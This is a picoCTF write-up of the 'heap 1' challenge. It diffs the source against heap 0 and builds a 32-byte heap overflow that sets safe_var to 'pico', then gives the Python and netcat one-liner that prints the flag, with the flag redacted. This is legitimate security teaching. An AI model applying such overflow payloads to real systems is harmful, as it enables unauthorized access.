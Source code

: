 # heap 1 #
 
## Overview ##

100 points

Category: [Binary Exploitation](../)

Tags: `#binaryexploitation #heap #bufferoverflow`

## Description ##

Can you control your overflow?

## Approach ##

Binary and source are provided for this challenge.

Inspecting the `chall.c` source file, it looks to be a modified version of **[heap 0](../heap%200/heap%200.md)** challenge, so running a diff between the two to determine the changes :

    diff ../heap-0/chall.c chall.c
    16c16
    <     if (strcmp(safe_var, "bico") != 0) {
    ---
    >     if (!strcmp(safe_var, "pico")) {
    47c47
    <     printf("\nWelcome to heap0!\n");
    ---
    >     printf("\nWelcome to heap1!\n");
    88,99c88
    <   int rval = scanf("%d", &choice);
    <   if (rval == EOF){
    <       exit(0);
    <   }
    <         if (rval != 1) {
    <             //printf("Invalid input. Please enter a valid choice.\n");
    <             //fflush(stdout);
    <             // Clear input buffer
    <             //while (getchar() != '\n');
    <             //continue;
    <       exit(0);
    <         }
    ---
    >   if (scanf("%d", &choice) != 1) exit(0);

So now our challenge is to cause an overflow but construct the overflow such that the `safe_var` rewritten with known data, in this case it must be equal to `"pico"` as seen in the updated conditional statement above.

## Solution ##

A minor modification to our existing attack for **[heap 0](../heap%200/heap%200.md)** to increase the overflow to add the required `safe_var` contents in the correct position (offset is again 32-bytes as obtained from the addresses displayed by the challenge executable), such that the input payload;
- Select menu item 2 "Write to Buffer" = `"2\n"`
- Overflows the `input_data` buffer to reach the start of the `safe_var` buffer by outputting 32 `A` characters = `"A"*32`
- Continue the overflow to write `"pico"` into `safe_var` buffer, completing the input string to be written = `"pico\n"`
- Select menu item 4 "Print Flag" = `"4\n"`

Which yields the following output:

    $ echo $(python3 -c 'print("2\n" + "A"*32 + "pico\n4\n")') | nc tethys.picoctf.net 64934

    Welcome to heap1!
    I put my data on the heap so it should be safe from any tampering.
    Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

    Heap State:
    +-------------+----------------+
    [*] Address   ->   Heap Data   
    +-------------+----------------+
    [*]   0x556535d462b0  ->   pico
    +-------------+----------------+
    [*]   0x556535d462d0  ->   bico
    +-------------+----------------+

    1. Print Heap:      (print the current state of the heap)
    2. Write to buffer: (write to your own personal block of data on the heap)
    3. Print safe_var:  (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
    4. Print Flag:      (Try to print the flag, good luck)
    5. Exit

    Enter your choice: Data for buffer: 
    1. Print Heap:      (print the current state of the heap)
    2. Write to buffer: (write to your own personal block of data on the heap)
    3. Print safe_var:  (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
    4. Print Flag:      (Try to print the flag, good luck)
    5. Exit

    Enter your choice: 
    YOU WIN
    picoCTF{...........redacted.............}

Where the actual flag value has been redacted for the purposes of this write up.